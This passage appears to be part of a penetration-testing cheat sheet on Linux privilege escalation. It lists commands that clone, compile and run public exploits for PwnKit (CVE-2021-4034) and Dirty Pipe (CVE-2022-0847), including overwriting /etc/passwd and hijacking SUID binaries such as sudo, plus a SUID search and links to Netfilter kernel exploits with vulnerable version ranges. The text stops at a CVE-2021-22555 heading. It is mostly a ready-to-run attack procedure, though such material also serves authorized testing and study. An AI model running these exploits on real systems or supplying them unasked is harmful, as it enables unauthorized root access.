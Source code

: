 ```Shell
pkexec -u <user> <command>
```

```Shell
pkexec -u root id
```
#### [Pwnkit (CVE-2021-4034)](https://github.com/arthepsy/CVE-2021-4034)
##### Clone and compile exploit
```Shell
git clone https://github.com/arthepsy/CVE-2021-4034.git
```

```Shell
cd CVE-2021-4034
```

```Shell
gcc cve-2021-4034-poc.c -o poc
```
##### Execute the exploit
```Shell
./poc
```
### [Dirty Pipe](https://github.com/AlexisAhmed/CVE-2022-0847-DirtyPipe-Exploits)
#### Download and compile the exploit
```Shell
git clone https://github.com/AlexisAhmed/CVE-2022-0847-DirtyPipe-Exploits.git
```

```Shell
cd CVE-2022-0847-DirtyPipe-Exploits
```

```Shell
bash compile.sh
```
#### Option A: modifying /etc/passwd
##### Verify kernel version
```Shell
uname -r
```
Example: 5.13.0-46-generic
##### Exploitation
```Shell
./exploit-1
```
#### Option B: Executing SUID binaries w/ root privileges
##### Find SUID binaries on host
```Shell
find / -perm -4000 2>/dev/null
```
##### Exploitation
```Shell
./exploit-2 /usr/bin/sudo
```
### Netfilter
- [CVE-2021-22555](https://github.com/google/security-research/tree/master/pocs/linux/cve-2021-22555): Vulnerable kernel versions: 2.6 - 5.11
- [CVE-2022-1015](https://github.com/pqlx/CVE-2022-1015): Vulnerable kernel versions: 5.4 through 5.6.10
- [CVE-2023-32233](https://github.com/Liuk3r/CVE-2023-32233): Vulnerable kernel versions: <= 6.3.1 - nf_tables
#### CVE-2021-22555